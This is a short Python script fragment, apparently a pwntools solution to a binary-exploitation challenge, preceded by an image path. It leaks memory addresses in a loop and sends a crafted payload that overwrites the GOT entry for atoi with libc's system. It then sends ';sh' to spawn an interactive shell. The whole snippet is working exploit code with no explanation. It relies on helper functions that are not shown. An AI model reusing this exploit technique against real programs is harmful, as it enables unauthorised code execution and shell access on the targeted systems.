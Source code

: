 ```py
for i in range(26):
	temp_addr = leakAddr(p32(temp_addr + 8) + p32(0)*3)
delet_ebp = temp_addr + 0x20

payload1 = b'27'
payload1 += p32(0)*2 + p32(delet_ebp - 0x0c) + p32(e.got['atoi'] + 0x22)
delete(payload1)

p.recvuntil(b'>')
payload2 = p32(libc_base + l.symbols['system']) + b";sh\x00"
p.sendline(payload2)

p.interactive()
```